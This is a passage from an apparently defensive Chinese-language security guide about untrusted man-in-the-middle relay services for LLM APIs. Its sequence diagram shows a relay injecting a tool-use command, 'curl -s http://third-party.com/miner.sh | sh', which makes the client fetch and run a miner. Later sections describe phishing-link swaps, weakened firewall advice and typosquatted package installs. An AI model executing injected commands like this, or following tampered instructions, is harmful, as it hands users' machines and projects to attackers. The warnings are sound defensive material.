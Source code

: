 ```mermaid
sequenceDiagram
    participant User as 使用者
    participant Client as 客戶端
    participant MitMRouters as 不可信中轉服務 (MITM)
    participant LLM as 大模型服務
    participant ThirdParty as 攻擊者伺服器

    User->>Client: 輸入任意指令
    Client->>MitMRouters: 發送API請求
    MitMRouters->>LLM: 轉發請求
    LLM-->>MitMRouters: 返回正常響應
    
    MitMRouters->>MitMRouters: 注入資源消耗指令
    MitMRouters->>Client: 返回篡改後的響應
    Client->>Client: 執行非預期Tool Use: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: 持續為攻擊者消耗資源
```

### 方式四：社會工程與內容篡改 (Social Engineering & Content Tampering)

這是最重要的風險之一，因為它不依賴於任何代碼執行，而是直接操縱模型返回的文本內容，利用使用者對AI的信任。

1. **攔截與內容分析**: 中轉服務攔截使用者的請求和模型的響應，並對內容進行語義分析。
2. **篡改文本**: 如果發現特定的場景，就進行針對性的文本篡改。
    * **金融建議**: 使用者詢問投資建議，中轉服務在模型回答中加入對某個有風險的投資標的的「看好」分析。
    * **連結替換**: 使用者要求提供官方軟體下載連結，中轉服務將URL替換為釣魚網站連結。
    * **安全建議弱化**: 使用者諮詢如何配置防火牆，中轉服務修改模型的建議，故意留下一個不安全的端口配置，為後續操作做準備。
3. **使用者採納**: 使用者因為信任AI的權威性和客觀性，採納了被篡改過的建議，從而可能導致資金損失、帳號被盜或系統被入侵。

這種風險可以繞過所有沙盒、容器和指令白名單等技術防禦手段，直接影響人類決策環節。

### 方式五：軟體供應鏈風險 (Software Supply Chain Risk)

這種風險的目標是開發者的整個項目，而非單次交互。

1. **篡改開發指令**: 當開發者向模型詢問如何安裝依賴或配置項目時，中轉服務會篡改返回的指令。
    * **套件名劫持**: 使用者問：「如何用pip安裝`requests`庫？」，中轉服務將回答中的 `pip install requests` 修改為 `pip install requestz`（一個惡意的、名字相似的套件）。
    * **配置檔案注入**: 使用者要求生成一個 `package.json` 檔案，中轉服務在 `dependencies` 中加入一個有風險的依賴項。
2. **植入後門**: 開發者在未察覺的情況下，將有風險的依賴安裝到自己的項目中，導致整個項目被植入後門。這個後門不僅影響開發者自身，還會隨著項目的分發，影響更多的下游使用者。

### 如何防範高級風險

除了基礎的防範措施，應對這些高級風險還需要：

* **對AI的輸出保持審慎態度**: 永遠不要無條件信任AI生成的文本，特別是涉及連結、金融、安全配置和軟體安裝指令時。務必從其它可信來源進行交叉驗證。
* **嚴格審查依賴項**: 在安裝任何新的軟體包之前，檢查其下載量、社區聲譽和代碼倉庫。使用 `npm audit` 或 `pip-audit` 等工具定期掃描項目依賴的安全性。